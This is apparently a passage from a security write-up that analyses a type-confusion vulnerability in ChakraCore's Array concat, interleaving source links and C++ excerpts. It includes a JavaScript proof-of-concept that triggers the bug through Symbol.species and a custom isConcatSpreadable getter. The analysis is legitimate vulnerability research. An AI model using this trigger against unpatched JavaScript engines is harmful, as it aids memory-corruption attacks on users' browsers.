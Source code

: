 ```javascript
    var cons = new Function();
    cons[Symbol.species] = function() {
        qq = []; // here qq is just a JavascriptNativeIntArray
        return qq;
    }

    // using the species contructor allows us to get a handle on the result array
    // of functions such as map() or concat()
    a.constructor = cons;

    // Here we define a custom getter for the Symbol.isConcatSpreadable property
    // In it we change the type of qq by simply assigning an object to it
    fakeProp = { get: function() {
        b[1] = obj;
        qq[0] = obj; // qq was JavascriptNativeIntArray, now changed to JavascriptArray
        return true;
    }};

    Object.defineProperty(b, Symbol.isConcatSpreadable, fakeProp);
    
    // trigger the vulnerability
    var c = a.concat(b);

```

When the line `var c = a.concat(b);` was executed, it will first call [ArraySpeciesCreate()](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L3437), which in this case will return a `JavascriptNativeIntArray` ( line 2~9 ). Then it will goto [line 3497](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L3497) and call [ConcatIntArgs()](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L3143), our vulnerability function.

There's a for loop inside the `ConcatIntArgs()` functions:

```cpp
for (uint idxArg = 0; idxArg < args.Info.Count; idxArg++)
{
    Var aItem = args[idxArg];
    bool spreadableCheckedAndTrue = false;

    if (scriptContext->GetConfig()->IsES6IsConcatSpreadableEnabled())
    {
        spreadableCheckedAndTrue = JavascriptOperators::IsConcatSpreadable(aItem) != FALSE;

        if(!spreadableCheckedAndTrue)
```

Here the `args` stores the array that will be concatenated to `pDestArray`. For instance:

```javascript
var c = a.concat(b);
// here pDestArray = c
// args[0] = a
// args[1] = b
```
